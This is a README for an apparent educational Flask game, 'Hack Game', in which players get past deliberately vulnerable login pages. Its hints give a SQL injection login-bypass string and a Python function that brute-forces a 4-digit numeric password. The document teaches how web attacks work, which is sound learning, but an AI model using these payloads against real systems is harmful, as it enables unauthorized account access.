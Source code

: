 # project
Hack Game

#### Video Demo:  [Youtube Video](https://youtu.be/ueMjsCG1xFY)

#### Description:

<img src="./static/hacker_game.jpg" width="500" height="auto">

The project is created with flask (framework python) and sqlite3 for the backend and with bootstrap5 (framework html) and css for the frontend.
It is used to understand what the vulnerabilities of a website may be and to learn about the various types of attacks.

There are 3 levels:
- In the level 1 the login page have a vulnerability that can use to enter with SQL Injection. In the app you can find some advice on how to pass the level.
- In the level 2 the login page doesn't have a vulnerability and can be pass only with Bruteforce attack. In helpers.py you cand find some fuctions which may be right for you!
- In the level 3 you can see how to implement a simple map with folium lib. The map was rendered in the app as an iframe and there is a marker position that show your   
   latitude and longitude with ip position.

# Table of Contents
1. [Background](#background)
1. [Running](#running)
1. [Understending](#understanding)
1. [Hints](#hints)
1. [Resources](#resources)


## Background

If you want understand how the app work you have to learn what is the SQL Injection and Bruteforce.
Here is a short summary:

- #### SQL Injection: 
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.
In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

- #### Bruteforce: 
A brute force attack is a hacking method that uses trial and error to crack passwords, login credentials, and encryption keys. It is a simple yet reliable tactic for gaining unauthorized access to individual accounts and organizations’ systems and networks. The hacker tries multiple usernames and passwords, often using a computer to test a wide range of combinations, until they find the correct login information.
The name "brute force" comes from attackers using excessively forceful attempts to gain access to user accounts. Despite being an old cyberattack method, brute force attacks are tried and tested and remain a popular tactic with hackers.


## Running

To run the server to render the app use the command:

```python

flask run

```


## Understanding

+ #### app.py
   The file app.py is made up of 4 level functions (level1, level2, level3, finish), then there are start function that provide to set users table(database SQL) and about function that provide to give advice to finish the game. 

+ #### helpers.py
   In the file helpers.py you may find some functions:
   - Function that performs a Bruteforce attack against a login page.
   - Function login required to ask session in some page of the app.
   - Function that provides geolocalization.

+ #### requirements.txt
   File where you may find all libraries used in the app.

+ #### static/
   Directory where you may find some images used in the app.

+ #### templates/
   Directory where you may find html files (make with bootstrap) witch is rendered on the app. 


## Hints

To execute SQL Injection you can use a sql query like that:

```sql

' OR 'a'='a';--

```

To execute Bruteforce attack you can use something like that:

```python

# Function that sends a request to a login page
def send_request(url, username, password):
    data = {
        "username": username,
        "password": password
    }

    response = requests.post(url, data=data)

    return response


# Function that performs a Bruteforce attack against a login page
def bruteforce(url, username):
    for passcode in product(digits, repeat=4):
        passcode = "".join(passcode)
        response = send_request(url, username, passcode)
        if response.text.find("Forbidden") == -1:
            print(f"The correct password is: {passcode}")
            break

```

## Resources

- #### SQL Injection: [SQLInjection](https://portswigger.net/web-security/sql-injection)

- #### Bruteforce: [Bruteforce](https://www.fortinet.com/it/resources/cyberglossary/brute-force-attack)

- #### Geolocation: [Geolocation](https://python-visualization.github.io/folium/latest/)